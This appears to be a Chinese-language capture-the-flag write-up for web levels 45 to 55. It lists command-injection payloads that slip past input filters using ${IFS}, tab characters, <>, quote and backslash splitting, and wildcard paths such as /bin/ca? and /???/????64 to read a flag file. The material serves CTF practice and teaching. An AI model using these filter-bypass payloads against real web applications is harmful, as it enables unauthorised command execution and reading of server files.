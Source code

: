 ## Web45
c=tac%09f*%0A

## Web46
c=tac%09fl\ag.php%0A

## Web47
c=tac%09fl\ag.php%0A

## Web48
c=tac%09fl\ag.php%0A

## Web49
c=tac%09fl\ag.php%0A

## Web50
c=tac<>fl\ag.php%0A

## Web51
c=nl<>fl\ag.php%0A

## Web52
c=nl${IFS}/fl\ag%0A
注：flag.php是个假flag

## Web53
c=c''at${IFS}fl\ag.ph\p

## Web54
表达式 .* 就是单个字符匹配任意次，即贪婪匹配。比如caat、c\at、c''at等。
解决方法是直接调用bin目录下的命令
c=/bin/ca?${IFS}f???????

## Web55

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210716180736.png)

上传sh命令至tmp目录，然后用linux通配符匹配到对应文件
.代表source执行sh命令。

p牛：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#php5shell

也可以直接通配符
/???/????64 ????????       /bin/base64 flag.php
/???/???/????2 ????????     /usr/bin/bzip2 flag.php
